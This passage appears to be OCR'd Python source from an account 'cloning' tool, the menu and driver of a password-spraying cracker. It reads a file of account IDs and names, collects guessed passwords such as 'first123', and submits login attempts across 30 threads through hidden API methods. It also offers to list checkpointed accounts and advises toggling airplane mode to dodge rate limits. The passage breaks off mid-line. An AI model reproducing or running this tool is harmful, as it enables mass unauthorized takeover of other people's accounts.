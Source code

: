                         print(f'\x1b[38;5;244m({A}1\x1b[38;5;244m)\x1b[38;5;46m FILE CLONING \n\x1b[38;5;244m({A}2\x1b[38;5;244m)\x1b[38;5;46m RANDOM CLONING\n\x1b[38;5;244m({A}3\x1b[38;5;244m)\x1b[38;5;46m OLD CLONING\n\x1b[38;5;244m({A}0\x1b[38;5;244m)\x1b[38;5;46m EXIT TOOL')
                        linex()
                        xd=input(f'\x1b[38;5;244m({A}?\x1b[38;5;244m)\x1b[38;5;46m CHOICE : ')
                        if xd in ['1','01']:
                                clear();print(f'\x1b[38;5;244m({A}✘\x1b[38;5;244m)\x1b[38;5;46m EXAMPLE : /sdcard/XX.txt ');linex()
                                file = input(f'\x1b[38;5;244m({A}?\x1b[38;5;244m)\x1b[38;5;46m FILE NAME : ')
                                try:
                                        fo = open(file,'r').read().splitlines()
                                except FileNotFoundError:
                                        print(f'\x1b[38;5;244m({A}✘\x1b[38;5;244m)\x1b[38;5;46m FILE LOCATION NOT FOUND ')
                                        time.sleep(1)
                                        menu()
                                clear()
                                print(f'\x1b[38;5;244m({A}1\x1b[38;5;244m)\x1b[38;5;46m METHOD \x1b[38;5;244m({A}M1\x1b[38;5;244m)\n\x1b[38;5;244m({A}2\x1b[38;5;244m)\x1b[38;5;46m METHOD \x1b[38;5;244m({A}M2\x1b[38;5;244m)');linex()
                                mthd=input(f'\x1b[38;5;244m({A}?\x1b[38;5;244m)\x1b[38;5;46m CHOICE : ')
                                try:
                                    clear()
                                    ps_limit = int(input(f'\x1b[38;5;244m({A}✘\x1b[38;5;244m)\x1b[38;5;46m PASSWORD LIMIT : '))
                                except:
                                    ps_limit =1
                                clear()
                                print(f'\x1b[38;5;244m[\x1b[1;97m✘\x1b[38;5;244m] \x1b[38;5;46mEXAMPLE \x1b[1;97m● \x1b[38;5;46mfirst last \x1b[38;5;244m|\x1b[38;5;46m first123')
                                print(f'\x1b[38;5;244m[\x1b[1;97m✘\x1b[38;5;244m] \x1b[38;5;46mEXAMPLE \x1b[1;97m● \x1b[38;5;46m57273200 59039200 57575751 ');linex()
                                for i in range(ps_limit):
                                    plist.append(input(f'\x1b[38;5;244m({A}✘\x1b[38;5;244m)\x1b[38;5;46m PASSWORD NO {i+1} \x1b[38;5;244m–\x1b[38;5;46m➤{A} '))
                                linex()
                                print(f'\x1b[38;5;244m[\x1b[1;97m✘\x1b[38;5;244m] \x1b[38;5;46mEXAMPLE \x1b[1;97m● \x1b[38;5;46mfirst last \x1b[38;5;244m|\x1b[38;5;46m first123')
                                print(f'\x1b[38;5;244m[\x1b[1;97m✘\x1b[38;5;244m] \x1b[38;5;46mEXAMPLE \x1b[1;97m● \x1b[38;5;46m57273200 59039200 57575751 ');linex()
                                clear()
                                print(f'\x1b[38;5;244m({A}✘\x1b[38;5;244m)\x1b[38;5;46m DO YOU WENT SHOW CP ACCOUNT ➤ \x1b[38;5;244m[\x1b[38;5;46mY\x1b[38;5;244m/\x1b[1;91mN\x1b[38;5;244m]')
                                linex()
                                cx=input(f'\x1b[38;5;244m({A}?\x1b[38;5;244m)\x1b[38;5;46m CHOICE : ')
                                if cx in ['y','Y','yes','Yes','1']:
                                        pcp.append('y')
                                else:
                                        pcp.append('n')
                                with tred(max_workers=30) as crack_submit:
                                        clear()
                                        total_ids = str(len(fo))
                                        print(f'\x1b[38;5;244m({A}✘\x1b[38;5;244m)\x1b[38;5;46m TOTAL ACCOUNT \x1b[38;5;244m–\x1b[38;5;46m➤{A} '+total_ids+f' \x1b[38;5;244m({A}✘\x1b[38;5;244m)\x1b[38;5;46m PASS \x1b[38;5;244m–\x1b[38;5;46m➤{A} {ps_limit}')
                                        print(f'\x1b[38;5;244m({A}✘\x1b[38;5;244m)\x1b[38;5;46m IF NO RESULT \x1b[38;5;244m[\x1b[38;5;46mON\x1b[38;5;244m/\x1b[38;5;46mOFF\x1b[38;5;244m]\x1b[38;5;46m AIRPLANE MODE\x1b[38;5;244m[{A}M{mthd}\x1b[38;5;244m]')
                                        linex()
                                        for user in fo:
                                                ids,names = user.split('|')
                                                passlist = plist
                                                if mthd in ['1','01']:
                                                        crack_submit.submit(api1,ids,names,passlist)
                                                elif mthd in ['2','02']:
                                                        crack_submit.submit(ap